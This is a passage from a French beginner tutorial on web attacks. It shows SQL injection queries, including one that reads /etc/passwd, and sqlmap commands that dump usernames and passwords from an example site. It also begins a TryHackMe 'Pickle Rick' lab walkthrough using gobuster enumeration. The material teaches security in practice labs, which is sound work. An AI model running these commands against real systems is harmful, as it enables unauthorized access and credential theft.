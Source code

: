 ```sql
SELECT column_name FROM information_schema.columns WHERE table_name='nom_table';

-- Exécuter des commandes système (si les permissions le permettent)
SELECT pg_read_file('/etc/passwd');
```

#### Outils d'exploitation

- **sqlmap** : Outil automatisé pour détecter et exploiter les injections SQL
  ```bash
  # Détection basique
  sqlmap -u "http://example.com/page.php?id=1"
  
  # Extraction de la base de données
  sqlmap -u "http://example.com/page.php?id=1" --dbs
  
  # Extraction des tables
  sqlmap -u "http://example.com/page.php?id=1" -D nom_base --tables
  
  # Extraction des données
  sqlmap -u "http://example.com/page.php?id=1" -D nom_base -T users -C username,password --dump
  ```

**En clair, pour un débutant :**
L'injection SQL, c'est comme si vous remplissiez un formulaire de bibliothèque demandant "Quel livre cherchez-vous?" et qu'au lieu de répondre simplement "Harry Potter", vous répondiez "n'importe quoi MAIS AUSSI montre-moi tous les livres réservés par d'autres personnes". La base de données exécute votre instruction supplémentaire et vous révèle des informations auxquelles vous ne devriez pas avoir accès. Les caractères comme les apostrophes (') et les commentaires (--) sont les "outils" qui permettent de modifier la structure de la requête originale.

### Mini-lab TryHackMe « Pickle Rick » + Juice Shop XSS

#### Partie 1 : TryHackMe « Pickle Rick »

Ce mini-lab vous guide à travers l'exploitation d'une application web vulnérable sur la plateforme TryHackMe.

##### Objectif

Trouver les trois ingrédients secrets cachés sur le serveur.

##### Reconnaissance

1. **Exploration initiale** :
   - Examiner le code source de la page d'accueil
   - Rechercher des commentaires ou informations cachées
   - Identifier les technologies utilisées

2. **Découverte de contenu** :
   ```bash
   gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirb/common.txt
   ```

3. **Analyse des résultats** :
   - Noter les pages découvertes (/login.php, /assets, /portal.php, etc.)
   - Examiner chaque page pour comprendre la fonctionnalité
